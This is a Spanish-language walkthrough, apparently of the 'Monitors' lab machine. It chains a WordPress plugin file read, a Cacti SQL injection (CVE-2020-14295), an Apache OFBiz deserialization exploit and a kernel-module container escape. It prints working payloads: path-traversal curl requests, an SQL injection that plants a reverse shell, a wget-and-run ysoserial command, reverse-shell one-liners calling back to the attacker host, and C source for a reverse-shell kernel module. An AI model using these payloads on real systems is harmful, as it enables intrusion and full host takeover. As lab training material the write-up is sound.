





Resumen de Explotación
Resumen del proceso: La máquina objetivo ejecutaba un WordPress con el plugin vulnerable wp-with-spritz, permitiendo un ataque de Remote File Inclusion (RFI) para leer archivos del sistema. Mediante esta vulnerabilidad, descubrí un subdominio oculto ejecutando Cacti, donde obtuve acceso inicial explotando una inyección SQL (CVE-2020-14295) que me permitió ejecutar comandos remotos como www-data.
Tras la enumeración del sistema, encontré credenciales de respaldo en un script de backup que me otorgaron acceso SSH como el usuario marcus. El usuario tenía acceso a un servicio Apache OFBiz ejecutándose localmente en el puerto 8443, vulnerable a deserialización insegura (CVE-2020-9496), lo que me permitió obtener una shell como root dentro de un contenedor Docker.
Para escapar del contenedor al sistema host, aproveché la capability CAP_SYS_MODULE, que permitía cargar módulos del kernel. Creé un módulo malicioso que ejecutaba una reverse shell, compilándolo con los headers del kernel del host y cargándolo con insmod, obteniendo finalmente acceso root en la máquina real.
Tecnologías/Exploits: WordPress plugin RFI (wp-with-spritz 4.2.4), Cacti SQLi RCE (CVE-2020-14295), Apache OFBiz deserialization RCE (CVE-2020-9496), container escape mediante CAP_SYS_MODULE con módulo kernel personalizado.
Reconocimiento Inicial
Empiezo con un escaneo de nmap para identificar puertos abiertos y servicios en ejecución:

El escaneo revela que los puertos 22 (SSH) y 80 (HTTP) están abiertos. Al acceder al servidor web en el puerto 80, encuentro una redirección que requiere añadir monitors.htb al archivo /etc/hosts.
Enumeración Web - WordPress
Tras agregar la entrada DNS, accedo al sitio web y veo esta configuración:

En el footer del sitio identifico que se trata de un WordPress:
Iconic One Theme | Powered by WordpressEjecuto wpscan para enumerar información del CMS y descubro varios detalles importantes:
- Versión de WordPress: 5.5.1
- Tema: Iconic One versión 3.2.4
- XMLRPC: Habilitado
- Plugin encontrado: wp-with-spritz versión 4.2.4
Durante la enumeración también descubro el usuario marcus:

Investigación de Vulnerabilidades
Investigo vulnerabilidades conocidas para WordPress 5.5.1 y encuentro CVE-2020-28035 y CVE-2020-28036, que permiten escalada de privilegios mediante XMLRPC, pero no encuentro PoCs públicas funcionales.
Para el plugin wp-with-spritz, encuentro una vulnerabilidad crítica de Remote File Inclusion (RFI): https://www.exploit-db.com/exploits/44544
Explotación del RFI - Lectura de Archivos
Utilizo la vulnerabilidad RFI del plugin para leer archivos del sistema. Apuntando a wp-config.php, obtengo credenciales de la base de datos:
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.phpLas credenciales descubiertas son:
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpadmin' );
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
define( 'DB_HOST', 'localhost' );Intento reusar estas credenciales para el usuario marcus vía SSH, pero no funcionan. También pruebo a usar el RFI para ejecutar código PHP servido desde mi máquina, pero el código siempre aparece comentado en la respuesta:

Descubrimiento de Subdominio
Utilizo el RFI para leer las configuraciones de Apache en /etc/apache2/sites-enabled/:
curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../../../../../etc/apache2/sites-enabled/000-default.confLa respuesta revela la existencia de archivos de configuración adicionales:
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.confLeyendo cacti-admin.monitors.htb.conf, descubro un nuevo virtual host:
ServerAdmin admin@monitors.htb
ServerName cacti-admin.monitors.htb
DocumentRoot /usr/share/cacti
ServerAlias cacti-admin.monitors.htbAñado cacti-admin.monitors.htb al archivo /etc/hosts y accedo al subdominio.
Explotación de Cacti - SQLi a RCE
Al acceder a cacti-admin.monitors.htb, encuentro un panel de login de Cacti:

Pruebo las credenciales por defecto admin:admin sin éxito. También intento acceder a /etc/cacti/debian.php mediante el RFI para obtener credenciales, pero no tengo permisos de lectura. Finalmente, pruebo con las credenciales obtenidas anteriormente:
admin:BestAdministrator@2020!¡Consigo acceso al panel de administración de Cacti!
CVE-2020-14295 - SQL Injection a RCE
Investigo vulnerabilidades de Cacti y descubro CVE-2020-14295, una inyección SQL que puede derivar en ejecución remota de código: https://nvd.nist.gov/vuln/detail/cve-2020-14295
Encuentro un exploit funcional en: https://www.exploit-db.com/exploits/49810
El exploit funciona de la siguiente manera:
- Utiliza una inyección SQL en el parámetro
filterdel endpointcolor.php - Mediante UNION SELECT, extrae información de usuarios y modifica el ajuste
path_php_binary - Reemplaza
path_php_binarycon un payload de reverse shell - Dispara la ejecución accediendo a
/cacti/host.php?action=reindex
El payload SQL utilizado es:
payload = f"')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='{rshell};'+where+name='path_php_binary';--+-"Preparo mi listener de netcat y ejecuto el exploit:
sudo nc -lvnp 443python3 cacti-sqli.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020!Recibo la reverse shell como usuario www-data:
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.238] 50300
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-dataEscalada de Privilegios - Usuario marcus
Tras obtener acceso como www-data, confirmo que el usuario marcus existe en el sistema mirando /home y /etc/passwd.
Exploro el directorio home de marcus y noto que tengo permisos de lectura en algunos archivos, pero no puedo acceder a user.txt, note.txt ni al directorio .backup.
Descubrimiento de Script de Backup
Busco archivos relacionados con el directorio backup:
find / -iname "*backup*" 2>/dev/nullEncuentro un servicio systemd interesante:
/etc/systemd/system/cacti-backup.serviceInspeccionando el contenido del servicio:
[Unit]
Description=Cacti Backup Service
After=network.target
[Service]
Type=oneshot
User=www-data
ExecStart=/home/marcus/.backup/backup.sh
[Install]
WantedBy=multi-user.targetEl servicio ejecuta un script como www-data, lo que significa que tengo permisos para leerlo:
cat /home/marcus/.backup/backup.shEl contenido del script revela credenciales:
#!/bin/bash
backup_name="cacti_backup"
config_pass="VerticalEdge2020"
zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zipPruebo las credenciales marcus:VerticalEdge2020 vía SSH y gano acceso como usuario marcus, obteniendo la flag de usuario.
En el directorio home de marcus encuentro un archivo note.txt interesante:
TODO:
Disable phpinfo in php.ini - DONE
Update docker image for production use -Esta nota menciona Docker, lo cual será relevante más adelante.
Enumeración Post-Explotación - Apache OFBiz
Ejecuto ss -tuln para ver puertos abiertos localmente y descubro el puerto 8443:
ss -tulnRealizo port forwarding con SSH para inspeccionar el servicio:
ssh -L 8443:127.0.0.1:8443 marcus@10.10.10.238Accediendo a https://localhost:8443, descubro Apache OFBiz ejecutándose:

El sitio sugiere credenciales por defecto admin:ofbiz, pero no funcionan en el login: https://localhost:8443/webtools/control/login
En el footer identifico la versión exacta:
Powered by Apache OFBiz. Release 17.12.01CVE-2020-9496 - Deserialización Insegura
Investigo vulnerabilidades para esta versión y encuentro CVE-2020-9496, una vulnerabilidad de deserialización insegura en el endpoint XML-RPC: https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2020-9496
"La petición de XML-RPC es vulnerable a problemas de deserialización no segura y Cross-Site Scripting en Apache OFBiz versión 17.12.03"
Encuentro exploits para este CVE:
El exploit de exploit-db tiene un enlace roto al archivo JAR de ysoserial, así que lo descargo directamente del repositorio original: https://github.com/frohoff/ysoserial
También instalo Java 11 en mi máquina para poder compilar los payloads.
Modificación del Exploit
El exploit original no funciona correctamente, así que lo modifico para usar Java 11 específicamente y cambio el payload de reverse shell. La función principal modificada es:
function webRequest(){
echo -e "[*] Generating a JAR payload\n"
payload=$(/usr/lib/jvm/java-11-openjdk-amd64/bin/java -jar ysoserial-all.jar CommonsBeanutils1 "wget $ip/shell.sh -O /tmp/shell.sh" | base64 | tr -d "\n")
echo -e "[*] Sending malicious shell to server...\n" && sleep 3
curl -s $url:$port/webtools/control/xmlrpc -X POST -d "ProjectDiscovery test $payload ProjectDiscovery test $payload2 Creo un archivo shell.sh con múltiples métodos de reverse shell para mayor compatibilidad:
#!/bin/bash
export RHOST="10.10.16.3"
export RPORT="443"
bash -c "bash -i >& /dev/tcp/\$RHOST/\$RPORT 0>&1" 2>/dev/null || \
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("$RHOST",$RPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])' 2>/dev/null || \
nc -e /bin/sh $RHOST $RPORT 2>/dev/nullEjecución del Exploit
El ataque funciona en dos fases:
- Primera fase: Compila un payload ysoserial con
CommonsBeanutils1que ejecuta unwgetpara descargarshell.shdesde mi máquina y guardarlo en/tmp/shell.sh - Segunda fase: Compila otro payload que ejecuta
bash /tmp/shell.sh, disparando la reverse shell
Preparo el entorno para el ataque:
# Servir shell.sh por HTTP
python3 -m http.server 80# Listener para la reverse shell
sudo nc -lvnp 443Ejecuto el exploit modificado:
bash ofbiz_pwn.sh -i http://10.10.16.3 -p 443Mi servidor HTTP recibe la petición:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.238 - - "GET /shell.sh HTTP/1.1" 200 -Y recibo la reverse shell como root:
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.238] 60224
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@067381cad370:/usr/src/apache-ofbiz-17.12.01# whoami
rootSin embargo, noto rápidamente que estoy dentro de un contenedor Docker, no en la máquina host. El hostname 067381cad370 y la estructura del sistema lo confirman.
Container Escape - CAP_SYS_MODULE
Tras confirmar que estoy en un contenedor, investigo métodos para escapar al sistema host. El primer paso es verificar las capabilities del contenedor:
capsh --printLa salida revela una capability crítica:
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcapLa capability CAP_SYS_MODULE está habilitada, lo que permite cargar módulos del kernel. Esto es extremadamente peligroso ya que los módulos del kernel se ejecutan con privilegios máximos en el host, no en el contenedor.
Módulo Kernel Malicioso
Encuentro una guía detallada para escapar del contenedor mediante esta capability: https://blog.nody.cc/posts/container-breakouts-part2/#cap_sys_module--load-kernel-module
Creo un módulo del kernel en C que ejecutará una reverse shell en el contexto del host. El código del módulo (reverse-shell.c) es:
#include
#include
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.16.3/443 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit); Este módulo utiliza call_usermodehelper() para ejecutar comandos en el espacio de usuario del host cuando el módulo se carga.
Compilación del Módulo
Para compilar el módulo, necesito los headers del kernel del host. Verifico la versión del kernel:
uname -r4.15.0-151-genericCreo un Makefile adaptado a mi entorno:
obj-m +=reverse-shell.o
all:
make -C /lib/modules/4.15.0-142-generic/build M=/root modules
clean:
make -C /lib/modules/4.15.0-142-generic/build M=/root cleanCompilo el módulo del kernel:
makeLa compilación genera varios archivos, siendo el más importante reverse-shell.ko, que es el módulo kernel compilado:
make -C /lib/modules/4.15.0-142-generic/build M=/root modules
make[1]: Entering directory '/usr/src/linux-headers-4.15.0-142-generic'
CC [M] /root/reverse-shell.o
Building modules, stage 2.
MODPOST 1 modules
CC /root/reverse-shell.mod.o
LD [M] /root/reverse-shell.ko
make[1]: Leaving directory '/usr/src/linux-headers-4.15.0-142-generic'Escape Final del Contenedor
Preparo un nuevo listener de netcat en mi máquina atacante:
sudo nc -lvnp 443Cargo el módulo malicioso con insmod:
insmod reverse-shell.koAl cargar el módulo, este se ejecuta en el contexto del kernel del host, no del contenedor, por lo que la reverse shell se origina desde el sistema host real:
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.238] 32782
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@monitors:/# whoami
root
root@monitors:/# hostname
monitors¡He escapado exitosamente del contenedor y ahora tengo acceso root en la máquina host real! Puedo verificar que ya no estoy en el contenedor observando el hostname monitors en lugar del ID del contenedor anterior.
Finalmente, obtengo la flag de root:
cat /root/root.txt